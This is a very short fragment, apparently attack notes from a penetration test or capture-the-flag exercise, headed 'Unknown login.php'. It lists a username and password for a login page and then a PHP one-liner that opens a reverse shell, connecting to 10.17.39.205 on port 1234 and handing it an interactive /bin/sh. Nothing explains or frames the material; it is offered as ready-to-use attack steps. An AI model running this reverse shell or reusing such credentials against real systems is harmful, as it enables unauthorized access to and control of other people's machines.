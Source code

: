 ## Unknown login.php
*user* - helpdesk
*password* - cH4nG3M3_n0w

php -r '$sock=fsockopen("10.17.39.205",1234);exec("/bin/sh -i <&3 >&3 2>&3");
